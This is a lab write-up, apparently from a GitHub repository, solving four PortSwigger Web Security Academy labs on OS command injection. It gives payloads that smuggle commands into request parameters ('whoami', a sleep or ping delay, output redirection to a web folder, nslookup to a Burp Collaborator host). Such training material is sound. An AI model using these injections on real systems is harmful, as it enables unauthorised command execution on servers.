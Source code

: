 <!-- omit in toc -->
# OS command injection

<!-- omit in toc -->
## Table of Contents

- [OS command injection, simple case](#os-command-injection-simple-case)
- [Blind OS command injection with time delays](#blind-os-command-injection-with-time-delays)
- [Blind OS command injection with output redirection](#blind-os-command-injection-with-output-redirection)
- [Blind OS command injection with out-of-band interaction](#blind-os-command-injection-with-out-of-band-interaction)

## OS command injection, simple case
Reference: https://portswigger.net/web-security/os-command-injection/lab-simple

<!-- omit in toc -->
### Quick Solution
Intercept the **check stock** request and modify the ``storeId`` parameter to:
```
%26whoami%26
```
The payload provided by PortSwigger is a little bit different, but the result is the same.

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify a request that checks the stock level.
2. Modify the ``storeID`` parameter, giving it the value ``1|whoami``.
3. Observe that the response contains the name of the current user.

## Blind OS command injection with time delays
Reference: https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays

<!-- omit in toc -->
### Quick Solution
As with the previous lab I used a different payload to solve the lab. I tried the following payload on every parameter of the **Submit feedback** request (until it worked with the ``email`` parameter):
```
%26sleep%2010%26
```

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the ``email`` parameter, changing it to:
```
email=x||ping+-c+10+127.0.0.1||
```
3. Observe that the response takes 10 seconds to return.

## Blind OS command injection with output redirection
Reference: https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection

<!-- omit in toc -->
### Quick Solution
As with the previous lab I used a different payload to solve the lab. I tried the following payload on every parameter of the **Submit feedback** request (until it worked with the ``email`` parameter):
```
%26whoami>whoami.txt%26
```

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the ``email`` parameter, changing it to:
```
email=||whoami>/var/www/images/output.txt||
```
3. Now use Burp Suite to intercept and modify the request that loads an image of a product.
4. Modify the ``filename`` parameter, changing the value to the name of the file you specified for the output of the injected command:
```
filename=output.txt
```
5. Observe that the response contains the output from the injected command.

## Blind OS command injection with out-of-band interaction
Reference: https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band

<!-- omit in toc -->
### Quick Solution
As with the previous lab I used a different payload to solve the lab. I tried the following payload on every parameter of the **Submit feedback** request (until it worked with the ``email`` parameter):
```
%26nslookup%20your-burp-collaborator%26
```

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the ``email`` parameter, changing it to:
```
email=x||nslookup+x.burpcollaborator.net||
```